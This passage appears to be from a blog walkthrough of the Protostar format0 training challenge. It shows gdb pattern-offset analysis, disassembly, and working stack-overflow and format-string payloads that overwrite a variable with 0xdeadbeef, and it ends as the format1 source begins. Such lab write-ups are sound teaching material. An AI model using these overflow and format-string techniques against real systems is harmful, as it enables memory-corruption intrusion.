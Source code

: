 gdb> b *0x08048413
Breakpoint 1 at 0x8048413: file format0/format0.c, line 15.

gdb> r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
...
Breakpoint 1, vuln (string=0x41386341 <Address 0x41386341 out of bounds>) at format0/format0.c:15
15	in format0/format0.c

gdb> x /1xw $ebp-0xc
0xbffff6ec:	0x63413163
{% endcodeblock %}

From the output above, we can see:
{% codeblock %}
# addr of 'int target':
0x080483fa <vuln+6>:	mov    DWORD PTR [ebp-0xc],0x0

# addr of 'char *string':
0x08048401 <vuln+13>:	mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:	mov    DWORD PTR [esp+0x4],eax

# addr of 'char buffer[64]':
0x08048408 <vuln+20>:	lea    eax,[ebp-0x4c]
{% endcodeblock %}

Because the pattern `0x63413163` means offset 64, we could trivially pass the
challenge by overflowing `buffer` array, because `int target` follows immediately
(0x4c - 64 = 0xc):

{% codeblock %}
user@protostar:~$ /opt/protostar/bin/format0 $(ruby -e 'print "A" * 64 + [0xdeadbeef].pack("V")')
you have hit the target correctly :)
{% endcodeblock %}

This level should be done in less than 10 bytes of input, so let's try similar
approach by overflowing the buffer using format string exploitation.

{% codeblock %}
user@protostar:~$ /opt/protostar/bin/format0 $(ruby -e 'print "%64x" + [0xdeadbeef].pack("V")')
you have hit the target correctly :)

user@protostar:~$ ruby -e 'print "%64x" + [0xdeadbeef].pack("V")' > /tmp/payload

user@protostar:~$ wc -c /tmp/payload 
8 /tmp/payload

user@protostar:~$ /opt/protostar/bin/format0 $(cat /tmp/payload)
you have hit the target correctly :)
{% endcodeblock %}

## Protostar Format1
{% codeblock lang:c format1.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
